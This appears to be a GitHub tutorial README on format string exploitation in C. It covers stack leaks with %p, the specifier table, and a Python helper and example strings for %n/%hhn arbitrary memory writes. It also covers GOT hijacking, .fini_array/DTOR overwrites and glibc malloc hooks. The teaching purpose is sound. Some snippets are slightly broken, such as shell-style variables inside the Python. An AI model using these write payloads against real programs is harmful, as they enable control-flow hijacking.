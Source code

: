 # Format String Attack

## Printf Layout
Sometimes printf will printf some weird value in the following situation.:scream:  
```C
#include <stdio.h>
#include <stdlib.h>
int main(int argc,char *argv[]){
  char *format = "%s";
  char *arg1 = "hello world!\n";
  printf(format,arg1);
  return EXIT_SUCCESS;
}  
// command "man 3 printf" then you can see more use of printf
// The above example is the right use  
printf("%p %p",a);
```  
We already know that one %p represents a variable. But in the example above, we can see that we use two %p with only one example, then we can see a weird value print out on result without crash. In fact, the weird value comes from the **stack**.:yum:  
The picture following can help you understand more......  
<img src="https://github.com/shinmao/WhyNot-StackOverflow/blob/master/Format-String-Attack/printf%20layout.png" width="626" height="276">   
Therefore, the value are all located in the consecutive position in the following. We can also print the value in specified location with the format string of %(num)$p.  

## Use of Format String
```C
%d: 4byte of integer, output decimal number
%u: 4byte of unsigned integer
%c: 1byte of character
%x: 4bytes of hex, output hexadecimal number
%s: 4byte string, read string from memory  
%p: ptr address  
%n: the number of string, write 4bytes untill the format string to memory  
%(num)c: at least num of string  
%h: 2byte, short int  
%hh: 1byte of char
%l: 4byte, long int
%ll: 8byte, long long int
```  
You may get tired with the rules above. Don't worry, I will show how to use it in soon.:+1:  
> When we start to attack, we also need to be careful that printf() will be eaten by the **null bytes**, this usually happen in 64-bits!  
  
### First, tell you a little trick
When we neen to make the payload, the number before c is always a complex problem.  
Therefore, how about make up a function to calculate for us.    v Python  
```Python
def fmt(prev,val,index):
  result = ""
  if prev < val :
    result += "%"+str(val-prev)+"c"
  elif prev == val :
    result += ""
  else :  
    result = "%"+str(val-prev+256)+"c"  
  result += "%"+str(index)+"$hhn"
  return result  
#
#Try to play with this function??
#
$target is the value we want to write in  
for i in range(4):
  payload += fmt(prev,(target >> i*8)& 0xff,$index+i)  
  prev = (target >> i*8)& 0xff
```  
How to get the index of arguments?  
Assume that we want to get the index of 0x7fffffffdd58 on the stack in the following picture.(Be sure to set Break point at printf!!  
First, you can see that the argument is at the position of offset 5th, and the first one is return address so it should be on 4th.  
However, in the system of x64, there are 6 arguments stored in registers, and also the format string itself.  
Besides, we can use gdb-peda to get the index of argument such as the **fmtarg** in the following example.
<img src="https://github.com/shinmao/WhyNot-StackOverflow/blob/master/Format-String-Attack/fmtarg.png" width="474" height="280">  

## Help with your Buffer Overflow
Already know that we need to length of string to overwrite the ret address.  
Therefore, We can use %(num)d, %(num)u, or %(num)x to stretch the original one.  
**Be careful that "n" of %nd cannot be greater than 1000, or the program will crash. In this case, we can change to use %.nd**

## Write to arbitrary memory  
```C
"12345%3$n"   //write len(12345) to the fourth parameter  
"%123c%3$n"   //write 123 to the fourth parameter because "c" is the count
"%123c%3$hhn" //write one byte
"%30c%3$hhn%70c%4$hhn"   //Be careful, this mean we write 100 to the fifth parameter!!
```  
How do we solve the null-byte problem?  
```C
"%45068c%10$hn\xdd\xaa\x00\x00\x00\x00...."   //put the address at the end of payload then we can solve the problem  
```  
Besides, for convenience, we will padding format string to the 8 bytes.  
  
:fire: **GOT hijacking**  
What is GOT? List of pointers to dynamically linked symbols.  
```
readelf --relocs ./elf  
gdb-peda$ got
```  
**Be sure that RELRO not be FULL**. When RELRO is open, pltsymbol will be removed.  
  
:fire: **DTOR Overwrite**  
It is an old use of format string attack that hijack the flow after main function finished.  
Because most C programs will call destructors after main is executed.  
What is DTOR list? List of destructors to call.  
e.g.DEADBEEF: __DTOR_END__  
e.g.DEADBEEB: __DTOR_LIST__  
<img src="https://github.com/shinmao/WhyNot-StackOverflow/blob/master/Format-String-Attack/fini_array.png" width="637" height="122">
Nowadays, we can use command of **'objdump -h -j .fini_array ./elf'** to get the address of it.  
**Be sure that RELRO to be disabled**.  
  
:fire: **C Library hooks**  
A new technique to exploit **heap based** overflow in memory.  
The author of the paper Solar Designer suggest to overwrite a hook in GNU C Library and others.  
In common, the hooks are always used to debugging, and famous ones are  
:sparkles: _ _ malloc _ hook, _ _ realloc _ hook, _ _ free _ hook  
Originally, they are set to be NULL, if I overwrite them with some hijack pointer, malloc, realloc, and free will be hijacked when next time they are called. What's interesting, they will be executed **before** the real function executed because they are debug hooks!

## Advanced trick  
:fire: **Hijack ret address**  
It is also an interesting trick used in **double function call**.  
<img src="https://github.com/shinmao/WhyNot-StackOverflow/blob/master/Format-String-Attack/rbp%20chain.png" width="406" height="538">  
In fact, I still not complete the practice of it. After that I will update this tutorial in soon!  

## Reference  
[The reading I recommend so much](https://github.com/shinmao/WhyNot-StackOverflow/blob/master/Format-String-Attack/formatstring-umustread.pdf)
